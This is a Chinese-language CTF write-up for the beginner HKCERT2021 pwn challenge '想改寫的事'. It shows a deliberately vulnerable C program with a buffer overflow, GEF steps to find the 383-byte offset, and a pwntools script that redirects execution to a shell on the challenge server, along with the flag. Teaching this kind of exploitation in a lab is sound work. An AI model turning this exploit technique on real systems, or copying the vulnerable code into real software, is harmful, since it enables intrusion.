

# HKCERT2021 - 想改寫的事
- Write-Up Author: [Ivan Mak](https://hackmd.io/JH0dysBTSx6H1o1PZ7OqWg)

- Flag: hkcert21{be_c4r3_WIth_7he_5iZe}

## **Question:**
想改寫的事 (50 points)

>Challenge description


Attachment: [warmup_6eab9fa64b5dd76649f6c0372315aabe.zip](./warmup_6eab9fa64b5dd76649f6c0372315aabe.zip)

## Write up
- 知識點

這是一道經典的 pwn 基礎題，香港朋友他們在出這一道題之前，已經事先在 Youtube 上發布了 [PWN 101 - Buffer Overflow 【廣東話 CTF 新手教學】](https://www.youtube.com/watch?v=Ag0OcqbVggc)，雖然題目不同，但核心解法和原理幾乎一樣，可以說看了它就能解這題。而且這是一個適合新手的 pwn 入門視頻教學，特別推薦第一次玩 pwn 的小伙伴。

這裡有 2 個很重要的工具需要使用到，[GEF](https://github.com/hugsy/gef) 和 [pwntools](https://github.com/Gallopsled/pwntools)，具體的安裝方法這裡不贅述，你是駭客就自行解決吧。

1. 先看附檔內容

**warmup.c**
```
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void get_shell() {
    system("/bin/sh");
}

void init() {
    setvbuf(stdin, 0, 2, 0);
    setvbuf(stdout, 0, 2, 0);
    setvbuf(stderr, 0, 2, 0);
    alarm(60);
}

int main () {
    char buf[100];
    char end[8] = "N";
    init();
    printf("Welcome to echo service.\n");
    while(!(end[0] == 'Y' || end[0] == 'y')){
        int num_read = read(0, buf, 0x100);
        if (buf[num_read-1] == '\n')
            buf[num_read-1] = '\0';
        printf("%s", buf);
        printf("End?[Y/N] ");
        scanf("%7s", end);
    }
}
```

這裡的目標是，從 read() 讀一個過長的字串，令 buf[100] 產生溢位(buffer overflow)，從而執行函式 get_shell()

2. 用 GEF 找溢位長度

附檔裡有一個叫 chall 的執行檔，它是 warmup.c 編譯出來的，我先給 chall 一個可執行的屬性。

```
chmod 777 chall

```

a. 運行 gef

```
$ gdb
gef➤ file chall

```


b. 查看 main 的 disassemble

```
gef➤  disassemble main

```


c. 建立 break point

把 break point 建立在最後一個位置 0x00000000004012ba 上

```
gef➤ break *main+186

```


d. 執行並填入大量字串

```
gef➤ run

```


e. 找出需要用多少字才回傳到 stack 的起始值

```
gef➤ pattern create 500

```




看到填入的字串產生了變化，搜尋第一行位置的 pattern 值

```
gef➤  pattern search 0x00007fffffffe228

```


找到共需填入 383 個字元才到達 stack 的起始回傳的位置

3. 用 python 的 pwntools 寫 payload

記得用 gef 查看一下 get_shell 的位置

```
gef➤  disassemble get_shell
```


```
from pwn import *

p = remote("chalp.hkcert21.pwnable.hk",28028)
p.recvuntil("service.")

get_shell = 0x0000000000401182
p.sendline(b"a"*383 + p64(get_shell))

p.recvuntil("End?[Y/N]")
p.sendline("y")

p.interactive()
```

這樣就能取得 shell 的執行權為所欲為
```
ls 
cat flag.txt

```


> hkcert21{be_c4r3_WIth_7he_5iZe}
